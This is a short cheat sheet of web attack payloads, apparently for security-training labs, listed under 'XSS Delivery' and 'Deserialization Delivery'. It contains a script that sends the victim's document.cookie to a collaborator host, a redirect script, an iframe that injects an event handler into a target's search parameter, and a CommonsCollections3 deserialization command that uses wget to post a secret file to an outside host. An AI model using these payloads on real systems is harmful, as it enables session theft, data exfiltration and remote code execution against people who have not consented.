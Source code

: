 ## XSS Delivery
```
<script>
location = "http://exampleurl"
</script>

<script>document.location='https://COLLABORATOR.com/?domxss='+document.cookie</script>

<iframe src="https://TARGET.net/?search=%22%3E%3Cbody%20onpopstate=print()%3E">  
```

## Deserialization Delivery
```
CommonsCollections3 'wget http://Collaborator.net --post-file=/home/carlos/secret'
```
